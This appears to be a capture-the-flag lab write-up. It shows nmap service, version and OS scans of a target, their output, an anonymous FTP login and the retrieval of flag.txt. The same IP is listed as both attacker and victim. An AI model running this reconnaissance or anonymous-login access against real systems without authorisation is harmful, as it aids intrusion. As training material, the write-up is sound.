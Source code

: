 ---- 
## Initial Information

- Attacker IP = 10.129.241.49
- Victim IP = 10.129.241.49
---
## Initial Scanning 


- Did an nmap scan to find what services are running found that FTP is running on port 21
```shell
nmap 10.129.241.49            

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 17:43 EDT
Nmap scan report for 10.129.241.49
Host is up (0.035s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp


```

- found that it is running vsftpd 3.0.3 and that it is running a unix based system and that it has a very high chance of being a Linux  system
```shell
nmap -sV 10.129.241.49
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 17:46 EDT
Nmap scan report for 10.129.241.49
Host is up (0.036s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

```


```shell
sudo nmap -O 10.129.241.49
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 17:50 EDT
Nmap scan report for 10.129.241.49
Host is up (0.018s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
Aggressive OS guesses: Linux 5.0 (95%), Linux 5.0 - 5.4 (95%), Linux 5.4 (94%), HP P2000 G3 NAS device (93%), Linux 4.15 - 5.6 (93%), Linux 5.3 - 5.4 (93%), Linux 2.6.32 (92%), Linux 2.6.32 - 3.1 (92%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (92%), Linux 3.7 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.44 seconds

```

- Logged into the Victim Server using FTP using the "anonymous" username and no password we know we were successful as we got a code 220
```shell
ftp 10.129.241.49 
Connected to 10.129.241.49.
220 (vsFTPd 3.0.3)
Name (10.129.241.49:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||12445|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> 

```

- Got the flag with the ftp Get command  to download into my download
```shell
get flag.txt
``` 